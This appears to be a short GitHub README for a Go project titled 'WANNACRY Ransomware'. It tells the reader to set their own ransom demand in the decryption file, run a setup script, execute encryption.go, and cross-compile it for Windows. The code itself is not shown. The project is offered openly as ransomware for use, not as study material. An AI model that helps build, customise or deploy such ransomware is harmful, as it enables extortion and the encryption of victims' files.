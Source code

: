 # WANNACRY Ransomware

```
change the message in the decryption file to your desired amount and requirements

Set up 'home' target directory:
```
```
./setup-env.sh
```

Run locally:
```
go run encryption.go
```

Compile for windows:
```
env GOOS=windows GOARCH=amd64 go build encryption.go
```
